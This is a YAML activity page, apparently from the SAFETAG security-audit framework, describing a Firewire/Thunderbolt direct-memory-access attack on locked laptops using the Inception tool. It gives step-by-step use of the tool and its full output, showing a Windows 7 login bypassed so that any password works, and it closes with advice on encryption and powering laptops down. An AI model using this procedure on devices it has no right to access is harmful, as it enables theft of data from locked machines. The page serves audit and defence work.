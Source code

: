 ```yaml
---
title: Firewire Access to Encrypted/Locked computers
approaches:
  - Technical
authors:
  - SAFETAG
remote_options:
  - None
skills_required:
  - CLI
skills_trained: []
organization_size_under: 25
time_required_minutes: 30
summary: >

  Firewire ports and expansion slots can be abused to obtain data that are
  thought to be encrypted


  Any attacker who obtains a running (including sleeping and hibernating!)
  Windows, Mac, or even Linux laptop with a Firewire port, an ExpressCard
  expansion slot, or a Thunderbolt port will be able to read, record or modify
  any sensitive information on the device, even if the screen is “locked” and
  the information is stored on an encrypted volume or in an encrypted folder.
  This applies to threats involving loss, theft and confiscation, but also to
  “checkpoint” scenarios in which the attacker may only have access for a few
  minutes.


  This attack requires physical control of a machine that is not powered off.
  Full details of the scope of the attack are available at
  http://www.breaknenter.org/projects/inception/ .
overview: ''
materials_needed: >

  * A system with a firewire port, a thunderbolt port, or a PCMCIA slot and a
  firewire card. See http://www.breaknenter.org/projects/inception/#Requirements
considerations: ''
walk_through: >

  Firewire ports and expansion slots can be abused to obtain data that are
  thought to be encrypted


  The threat describe in this section is more complex than it needs to be. In
  fact, unencrypted data are vulnerable to any number of simple attacks, the two
  most straightforward being: 1) rebooting the computer from a USB stick CD-ROM
  or DVD containing an alternate operating system, then copying all of the data;
  or 2) removing the hard drive, inserting it into a different machine, then
  copying all of the data. These techniques, which work on nearly any computer,
  even if a strong login password has been set, are effective and widely used,
  but they require extended physical access to the device. A slightly different
  attack is described below, one that only requires physical access for a few
  minutes. It, too, works regardless of login/screen-lock passwords, though only
  devices with Firewire ports or expansion slots (ExpressCard, CardBus, PCMCIA,
  etc.) are vulnerable.


  The steps required to defend against all of these threats is the same: encrypt
  your data using a tool like Microsoft’s BitLocker, Apple’s FileVaule or the
  open-source Truecrypt application. The Firewire attack highlighted here is
  particularly illustrative, however, because it serves as a reminder that
  merely setting up an encrypted volume is not enough. In much the same way that
  a lock does little to protect your home if the door to which it is attached
  remains open, data encryption is rarely effective while you are logged into
  your computer. Even if the screen is locked (which would foil the “reboot” and
  “hard drive removal” attacks described briefly above), an attacker may still
  find a way to access your sensitive data, while the computer is up and
  running, because the decryption key is present in the computer’s memory. (This
  is how large-scale encryption actually works. Information remains encrypted at
  all times, on the storage device where it lives, but you are able to access it
  while you are logged in, or while your encrypted volume is “open,” because
  your computer decrypts and encrypts it on the fly.)

  Walkthrough


  Step 1: First, the attacker would connect her computer to the victim’s using a
  Firewire cable. Either or both machines could be using a true Firewire port or
  a Firewire expansion card. When a Firewire ExpressCard expansion card is
  inserted, Windows automatically installs and configures the necessary drivers,
  even if nobody is logged into the laptop.


  Step 2: Once connected, the attacker simply runs the Inception tool, selects
  the operating system of the target machine and waits a minute or two for the
  attack to complete (depending on the amount of RAM present):


  ```

  $ incept

   _|  _|      _|    _|_|_|  _|_|_|_|  _|_|_|    _|_|_|  _|    _|_|    _|      _|
   _|  _|_|    _|  _|        _|        _|    _|    _|    _|  _|    _|  _|_|    _|
   _|  _|  _|  _|  _|        _|_|_|    _|_|_|      _|    _|  _|    _|  _|  _|  _|
   _|  _|    _|_|  _|        _|        _|          _|    _|  _|    _|  _|    _|_|
   _|  _|      _|    _|_|_|  _|_|_|_|  _|          _|    _|    _|_|    _|      _|

  v.0.2.0 (C) Carsten Maartmann-Moe 2012

  Download: http://breaknenter.org/projects/inception | Twitter: @breaknenter


  [*] FireWire devices on the bus (names may appear blank):

  --------------------------------------------------------------------------------

  [1] Vendor (ID): MICROSOFT CORP. (0x50f2) | Product (ID):  (0x0)

  --------------------------------------------------------------------------------

  [*] Only one device present, device auto-selected as target

  [*] Selected device: MICROSOFT CORP.

  [*] Available targets:

  --------------------------------------------------------------------------------

  [1] Windows 8: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation

  [2] Windows 7: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation

  [3] Windows Vista: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation

  [4] Windows XP: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation

  [5] Mac OS X: DirectoryService/OpenDirectory unlock/privilege escalation

  [6] Ubuntu: libpam unlock/privilege escalation

  --------------------------------------------------------------------------------

  [!] Please select target (or enter 'q' to quit): 2

  [*] Selected target: Windows 7: msv1_0.dll MsvpPasswordValidate
  unlock/privilege escalation

  [*] Initializing bus and enabling SBP-2, please wait  1 seconds or press
  Ctrl+C

  [*] DMA shields should be down by now. Attacking...

  [*] Searching, 1328 MiB so far

  [*] Signature found at 0x8b50c321 (in page # 570636)

  [*] Write-back verified; patching successful

  [*] BRRRRRRRAAAAAWWWWRWRRRMRMRMMRMRMMMMM!!!

  ```


  *In the case of the laptops tested, Inception took approximately two minutes
  to reach the final, somewhat self-congratulatory line shown above. At that
  point, we were able to login using any password. (Entering “asdf” worked just
  fine, and gave us full access to all data on the computer.) Inception works by
  temporarily replacing authentication code using the Firewire’s protocol’s
  direct memory access (DMA). After a reboot, everything is restored to its
  original state.*


  Once again, it is worth noting that successful mitigation of this issue
  requires a combination of technology (data encryption) and some level of
  behavior change (shutting down laptops at the end of the day, when traveling
  and at any time when confiscation, theft, loss or tampering are particularly
  likely.)
recommendations: ''
---
```


